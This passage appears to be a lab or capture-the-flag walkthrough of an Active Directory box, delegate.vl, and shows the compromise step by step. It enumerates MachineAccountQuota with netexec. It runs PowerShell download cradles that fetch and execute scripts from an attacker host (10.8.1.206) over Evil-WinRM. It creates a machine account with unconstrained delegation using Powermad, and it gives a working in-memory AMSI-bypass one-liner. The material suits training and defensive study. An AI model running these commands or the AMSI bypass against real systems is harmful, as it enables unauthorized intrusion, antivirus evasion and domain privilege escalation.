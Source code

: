 ```bash
netexec ldap 10.10.74.48 -u N.Thompson -p <REDACTED> -M MAQ
SMB         10.10.74.48     445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:False)
LDAP        10.10.74.48     389    DC1              [+] delegate.vl\N.Thompson:<REDACTED> 
MAQ         10.10.74.48     389    DC1              [*] Getting the MachineAccountQuota
MAQ         10.10.74.48     389    DC1              MachineAccountQuota: 10
```

Imported [PowerMad](https://github.com/Kevin-Robertson/Powermad) right into memory.

```
*Evil-WinRM* PS C:\Users\N.Thompson\Documents> (new-object system.net.webclient).downloadstring("http://10.8.1.206/Powermad.ps1")|iex
```

Created a new machine account called DUSK$, granted it with TRUSTED_FOR_DELEGATION and created a new WWW/dusk.delegate.vl SPN.

```
*Evil-WinRM* PS C:\Users\N.Thompson\Documents> new-machineaccount -machineaccount dusk$ -password $(convertto-securestring 'Dusk3d123!' -asplaintext -force)
[+] Machine account dusk$ added

*Evil-WinRM* PS C:\Users\N.Thompson\Documents> set-machineaccountattribute -machineaccount dusk$ -attribute useraccountcontrol -value 528384
[+] Machine account dusk attribute useraccountcontrol updated

*Evil-WinRM* PS C:\Users\N.Thompson\Documents> set-machineaccountattribute -machineaccount dusk$ -attribute serviceprincipalname -value WWW/dusk.delegate.vl -append
[+] Machine account dusk attribute serviceprincipalname appended
```

Uploading [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) to verify the changes got blocked by AMSI.

```
*Evil-WinRM* PS C:\Users\N.Thompson\Documents> (new-object system.net.webclient).downloadstring("http://10.8.1.206/powerview.ps1")|iex
This script contains malicious content and has been blocked by your antivirus software.
```

Let’s try to bypass AMSI with the following script.

```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

Nice! We bypassed AMSI and confirmed that the DUSK$ machine is granted with unconstrained delegation.

```
*Evil-WinRM* PS C:\Users\N.Thompson\Documents> (new-object system.net.webclient).downloadstring("http://10.8.1.206/amsi.txt")|iex
*Evil-WinRM* PS C:\Users\N.Thompson\Documents> (new-object system.net.webclient).downloadstring("http://10.8.1.206/powerview.ps1")|iex

*Evil-WinRM* PS C:\Users\N.Thompson\Documents> get-domaincomputer -unconstrained | select distinguishedname, useraccountcontrol

distinguishedname                                                             useraccountcontrol
-----------------                                                             ------------------
CN=DC1,OU=Domain Controllers,DC=delegate,DC=vl      SERVER_TRUST_ACCOUNT, TRUSTED_FOR_DELEGATION
CN=dusk,CN=Computers,DC=delegate,DC=vl         WORKSTATION_TRUST_ACCOUNT, TRUSTED_FOR_DELEGATION
```
